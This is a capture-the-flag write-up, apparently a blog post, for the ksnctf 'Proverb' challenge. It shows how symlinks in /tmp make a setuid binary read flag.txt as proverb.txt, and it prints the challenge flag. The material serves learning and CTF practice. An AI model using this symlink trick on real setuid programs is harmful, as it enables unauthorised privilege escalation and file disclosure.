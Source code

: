 ```yaml
---
layout : post
title : ksnctf Proverb write-up
comments : true
---
```


This article is a write-up for [Proverb](http://ksnctf.sweetduet.info/problem/13) at ksnctf.  

Using given information, let's connect to the server `ssh -p 10022 q13@ctfq.sweetduet.info`.  

```
taishi@sirius:~
⇒  ssh -p 10022 q13@ctfq.sweetduet.info
q13@ctfq.sweetduet.info's password: 
Last login: Tue Oct 20 20:12:26 2015 from 10.0.2.2
[q13@localhost ~]$ ls -al
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------  19 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x  17 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt
[q13@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q13@localhost ~]$ file proverb
proverb: setuid executable, regular file, no read permission
[q13@localhost ~]$ ./proverb 
Take heed of the snake in the grass.
[q13@localhost ~]$ ./proverb
Misfortunes never come singly.
[q13@localhost ~]$ ./proverb
Spare the rod and spoil the child.
[q13@localhost ~]$ ./proverb
Nothing ventured, nothing gained.
[q13@localhost ~]$ ./proverb
Take heed of the snake in the grass.
```

Inside, there are three files: `flag.txt` (probably contains FLAG), `proverb` (executable with SUID), and `proverb.txt`. It seems that `proverb` randomly chooses and prints out a line of strings inside `proverb.txt`.  
Since you can't analyze `proverb` using GDB (no read access), let's think about somehow using `/tmp` directory.  


However, although you have a write-permission, you don't have read-permission to `/tmp` directory.  


```
[q13@localhost ~]$ ls /tmp
ls: cannot open directory /tmp: Permission denied
```

However, there seems to be `proverb.txt` in /tmp as well, saying that you should make a subdirectory.

```
[q13@localhost ~]$ cat /tmp/proverb.txt
Please make your own subdirectory.
```

Make sense!. Let's create a subdirectory inside /tmp, then make a symbolic link of `~/proverb` and `~/flag.txt` and rename `flag.txt` to `proverb.txt`.  

```
[q13@localhost ~]$ mkdir /tmp/my_dir
[q13@localhost ~]$ cd /tmp/my_dir
[q13@localhost my_dir]$ ln -s ~/proverb .
[q13@localhost my_dir]$ ln -s ~/flag.txt proverb.txt
[q13@localhost my_dir]$ ./proverb
FLAG_XoK9PzskYedj/T&B
```

Flag is: __FLAG_XoK9PzskYedj/T&B__

